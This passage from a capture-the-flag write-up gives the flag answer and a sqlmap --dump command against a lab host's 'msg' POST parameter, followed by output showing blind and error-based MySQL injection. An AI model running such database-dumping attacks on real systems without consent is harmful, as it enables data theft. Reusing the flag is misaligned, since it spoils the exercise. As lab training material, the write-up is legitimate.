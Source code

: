 ### What is the value of the flag?
- **Answer:** found_me

```bash
$ sqlmap -u http://10.10.100.239 -data="msg=hi" --dump

sqlmap -u http://10.10.100.239 -data="msg=hi" --dump
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.5.4#stable}
|_ -| . [.]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 19:19:34 /2021-05-16/

[19:19:34] [INFO] testing connection to the target URL
[19:19:34] [INFO] checking if the target is protected by some kind of WAF/IPS
[19:19:34] [INFO] testing if the target URL content is stable
[19:19:34] [INFO] target URL content is stable
[19:19:34] [INFO] testing if POST parameter 'msg' is dynamic
[19:19:35] [WARNING] POST parameter 'msg' does not appear to be dynamic
[19:19:35] [INFO] heuristic (basic) test shows that POST parameter 'msg' might be injectable (possible DBMS: 'MySQL')
[19:19:35] [INFO] heuristic (XSS) test shows that POST parameter 'msg' might be vulnerable to cross-site scripting (XSS) attacks
[19:19:35] [INFO] testing for SQL injection on POST parameter 'msg'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) Y
[19:19:44] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[19:19:44] [WARNING] reflective value(s) found and filtering out
[19:19:46] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[19:19:46] [INFO] testing 'Generic inline queries'
[19:19:46] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[19:19:54] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[19:20:02] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)'
[19:20:11] [INFO] testing 'MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause'
[19:20:12] [INFO] POST parameter 'msg' appears to be 'MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause' injectable (with --not-string="not")
[19:20:12] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[19:20:12] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[19:20:12] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[19:20:12] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[19:20:12] [INFO] testing 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)'
[19:20:13] [INFO] POST parameter 'msg' is 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)' injectable 
[19:20:13] [INFO] testing 'MySQL inline queries'
[19:20:13] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[19:20:13] [INFO] testing 'MySQL >= 5.0.12 stacked queries'
[19:20:13] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
[19:20:13] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP)'
[19:20:14] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query - comment)'
[19:20:14] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query)'
```